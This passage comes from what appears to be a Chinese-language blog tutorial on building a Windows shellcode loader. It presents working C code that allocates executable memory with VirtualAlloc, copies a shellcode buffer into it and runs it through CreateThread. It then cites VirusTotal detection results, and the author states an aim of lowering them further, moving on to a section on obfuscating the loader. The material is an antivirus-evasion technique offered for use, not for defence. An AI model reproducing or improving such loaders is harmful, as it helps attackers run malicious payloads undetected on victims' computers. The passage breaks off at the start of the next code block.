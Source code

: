     // 获取shellcode大小
    shellcode_size = sizeof(buf);
    
    /*
    VirtualAlloc(
        NULL, // 基址
        800,  // 大小
        MEM_COMMIT, // 内存页状态
        PAGE_EXECUTE_READWRITE // 可读可写可执行
        );
    */
    
    char * shellcode = (char *)VirtualAlloc(
        NULL,
        shellcode_size,
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
        );
        // 将shellcode复制到可执行的内存页中
    CopyMemory(shellcode,buf,shellcode_size);
    
    hThread = CreateThread(
        NULL, // 安全描述符
        NULL, // 栈的大小
        (LPTHREAD_START_ROUTINE)shellcode, // 函数
        NULL, // 参数
        NULL, // 线程标志
        &dwThreadId // 线程ID
        );
    
    WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
        return 0;
    }
    
        

编译成功后，运行：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008165106270.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
V站查杀结果：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008165114806.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    https://www.virustotal.com/gui/file/00b0fe741923838b5757281e2ea37c0732c88443a8a4730f384371d8a8b0c2b0/detection
    
        

这个效果已经很好，但是我想要更好。

**0x04 实现一次混淆加载**

使用之前的Python脚本混淆生成RAW文件，最后得到混淆后的数组：

    #include <Windows.h>
    
    
    // 入口函数
    int wmain(int argc,TCHAR * argv[]){
    
